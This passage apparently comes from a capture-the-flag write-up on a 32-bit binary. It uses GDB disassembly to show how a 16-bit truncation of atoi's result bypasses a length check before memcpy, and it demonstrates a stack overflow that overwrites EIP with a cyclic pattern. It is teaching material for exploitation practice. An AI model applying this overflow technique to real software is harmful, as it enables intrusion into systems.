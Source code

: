 ```bash
   0x080491c6 <+64>:    push   0x1
   0x080491c8 <+66>:    call   0x8049050 <exit@plt>
   0x080491cd <+71>:    mov    edx,DWORD PTR [ebp-0x4]
   0x080491d0 <+74>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080491d3 <+77>:    add    eax,0x8
   0x080491d6 <+80>:    mov    eax,DWORD PTR [eax]
   0x080491d8 <+82>:    push   edx
   0x080491d9 <+83>:    push   eax
   0x080491da <+84>:    lea    eax,[ebp-0xff02]
   0x080491e0 <+90>:    push   eax
   0x080491e1 <+91>:    call   0x8049040 <memcpy@plt>
   0x080491e6 <+96>:    add    esp,0xc
   0x080491e9 <+99>:    mov    eax,0x0
   0x080491ee <+104>:   leave
   0x080491ef <+105>:   ret
```

Looking at the disassembly of the main function in **GDB**, particularly this section:\
```bash
0x080491ac <+38>:    push   eax
0x080491ad <+39>:    call   0x8049060 <atoi@plt>
0x080491b2 <+44>:    add    esp,0x4
0x080491b5 <+47>:    mov    DWORD PTR [ebp-0x4],eax
0x080491b8 <+50>:    mov    eax,DWORD PTR [ebp-0x4]
0x080491bb <+53>:    mov    WORD PTR [ebp-0x6],ax
0x080491bf <+57>:    cmp    WORD PTR [ebp-0x6],0x3f
```
We can see that the output from the `atio()` function call is put into **EAX**, then the **AX** (the lower half of **EAX**) is moved into a word pointer at **EBP-0x6** (`mov WORD PTR [ebp-0x6], ax`). Finally, the word pointer to `EBP-0x6` is compared against **0x3f**. This means only the lower half of the **EAX** is compared against **0x3f** in the if statement.\
We can pass the integer **65536** in `argv[1]` which the function call to `atoi()` will put the value **0x00010000** into **EAX**. The lower half of **EAX** (**AX**) is now `0x0000` which satisfies the **if** statement as it is lower than 63 (**0x3f**).\
This also means, that we can copy a string length of **65536** into the local buffer.

```bash
gef> run 65536 $(pwn cyclic 65536)
[ Legend: Modified register | Code | Heap | Stack | String ]
──── registers ────
$eax   : 0x0
$ebx   : 0xf7fade34  →  ",\r#"
$ecx   : 0xfffed3c0  →  "bazqcazqdazqeazqfazqgazqhazqiazqjazqkazqlazqmazqna[...]"
$edx   : 0xfffdd476  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$esp   : 0xfffed380  →  "kazplazpmazpnazpoazppazpqazprazpsazptazpuazpvazpwa[...]"
$ebp   : 0x707a6169 ("iazp"?)
$esi   : 0xfffed444  →  "jazrkazrlazrmazrnazroazrpazrqazrrazrsazrtazruazrva[...]"
$edi   : 0xf7ffcb60  →  0x00000000
$eip   : 0x707a616a ("jazp"?)
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──── stack ────
0xfffed380│+0x0000: "kazplazpmazpnazpoazppazpqazprazpsazptazpuazpvazpwa[...]"    ← $esp
0xfffed384│+0x0004: "lazpmazpnazpoazppazpqazprazpsazptazpuazpvazpwazpxa[...]"
0xfffed388│+0x0008: "mazpnazpoazppazpqazprazpsazptazpuazpvazpwazpxazpya[...]"
0xfffed38c│+0x000c: "nazpoazppazpqazprazpsazptazpuazpvazpwazpxazpyazpza[...]"
0xfffed390│+0x0010: "oazppazpqazprazpsazptazpuazpvazpwazpxazpyazpzazqba[...]"
0xfffed394│+0x0014: "pazpqazprazpsazptazpuazpvazpwazpxazpyazpzazqbazqca[...]"
0xfffed398│+0x0018: "qazprazpsazptazpuazpvazpwazpxazpyazpzazqbazqcazqda[...]"
0xfffed39c│+0x001c: "razpsazptazpuazpvazpwazpxazpyazpzazqbazqcazqdazqea[...]"
──── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x707a616a
```